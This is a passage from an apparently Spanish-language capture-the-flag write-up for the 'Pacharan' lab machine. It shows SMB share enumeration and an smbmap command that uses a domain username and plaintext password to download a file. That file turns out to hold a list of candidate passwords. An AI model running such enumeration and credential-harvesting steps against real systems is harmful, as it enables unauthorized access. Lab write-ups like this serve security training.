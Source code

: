 ```bash
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Admin remota
	C$                                                	NO ACCESS	Recurso predeterminado
	IPC$                                              	READ ONLY	IPC remota
	NETLOGON                                          	READ ONLY	Recurso compartido del servidor de inicio de sesión 
	NETLOGON2                                         	NO ACCESS	
	PACHARAN                                          	READ ONLY	
	./PACHARAN
	dr--r--r--                0 Wed Jul 31 11:21:13 2024	.
	dr--r--r--                0 Wed Jul 31 11:21:13 2024	..
	fr--r--r--              921 Wed Jul 31 11:21:13 2024	ah.txt
	PDF Pro Virtual Printer                           	NO ACCESS	Soy Hacker y arreglo impresoras
...
...
```
Parece ser otro archivo de texto.

Vamos a descargarlo:
```bash
smbmap -H 192.168.69.69 -d PACHARAN.THL -u 'Orujo' -p 'Pericodelospalotes6969' --download PACHARAN/ah.txt
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
[+] Starting download: PACHARAN\ah.txt (921 bytes)
[+] File output to: /../TheHackersLabs/Pacharan/content/192.168.69.69-PACHARAN_ah.txt          
[*] Closed 1 connections
```

Y veamos su contenido:
```bash
cat 192.168.69.69-PACHARAN_ah.txt
Mamasoystreamer1!
Mamasoystreamer2@
Mamasoystreamer3#
...
...
```
Es una lista de posibles contraseñas de algún usuario.
